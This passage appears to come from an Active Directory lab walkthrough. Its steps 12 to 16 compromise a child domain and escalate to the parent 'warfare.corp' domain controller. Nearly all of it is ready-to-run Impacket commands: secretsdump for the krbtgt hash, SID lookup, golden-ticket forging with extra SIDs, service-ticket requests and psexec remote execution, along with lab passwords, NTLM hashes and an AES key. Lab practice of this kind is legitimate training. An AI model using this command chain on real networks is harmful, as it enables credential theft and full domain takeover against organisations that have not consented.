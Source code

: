 ```bash
secretsdump.py -debug child/corpmngr@192.168.98.120 -hashes :4cb3933610b827a281ec479031128cc6 -just-dc-user 'child\krbtgt'
```

Or:

```bash
secretsdump.py -debug child/corpmngr:'User4&*&*'@cdc.child.warfare.corp -just-dc-user 'child\krbtgt'
```

### 12. Get Domain SIDs

```bash
lookupsid.py child/corpmngr:'User4&*&*'@child.warfare.corp
lookupsid.py child/corpmngr:'User4&*&*'@warfare.corp
```

### 13. Golden Ticket Attack

```bash
impacket-ticketer -aesKey ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2 \
-domain child.warfare.corp \
-domain-sid S-1-5-21-3754860944-83624914-1883974761 \
-extra-sid S-1-5-21-3375883379-808943238-3239386119-519 Administrator
export KRB5CCNAME=Administrator.ccache
```

### 14. Time Synchronization

```bash
sudo apt install ntpsec-ntpdate -y
sudo ntpdig -S 192.168.98.2
```

### 15. Request Service Ticket & Dump Hash

```bash
getST.py -spn 'CIFS/dc01.warfare.corp' -k -no-pass child.warfare.corp/Administrator
export KRB5CCNAME=Administrator@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache
secretsdump.py -k -no-pass dc01.warfare.corp -just-dc-user 'warfare\Administrator'
```

### 16. Access Parent Domain Controller

```bash
psexec.py child.warfare.corp/Administrator@dc01.warfare.corp -k -no-pass -target-ip 192.168.98.2
```

Or using hash:

```bash
psexec.py -debug 'warfare/Administrator@dc01.warfare.corp' -hashes aad3b435b51404eeaad3b435b51404ee:c20a43b71503528c05c57fcbff0c78e3
```

---
